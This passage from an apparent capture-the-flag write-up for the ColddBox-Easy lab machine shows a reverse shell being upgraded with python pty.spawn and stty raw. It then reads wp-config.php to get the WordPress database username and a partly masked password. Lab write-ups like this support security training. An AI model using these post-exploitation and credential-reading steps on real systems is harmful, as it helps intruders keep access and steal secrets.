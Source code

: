 ### Shell upgrade 
--- 
<br>
{% highlight bash %}
$ python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}
Then `Ctrl+Z` and `stty raw -echo` following by `fg` and two times `Enter` hit. As for me `TAB` autocomplete is more than enough.

<br>

### Looking around to find priv esc vector
***

{% highlight bash startinline=true %}
www-data@ColddBox-Easy:/var/www/html/wp-admin$ cat ../wp-config.php
cat ../wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cyb^^^^^^ty'); <==REDACTED

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
{% endhighlight %}

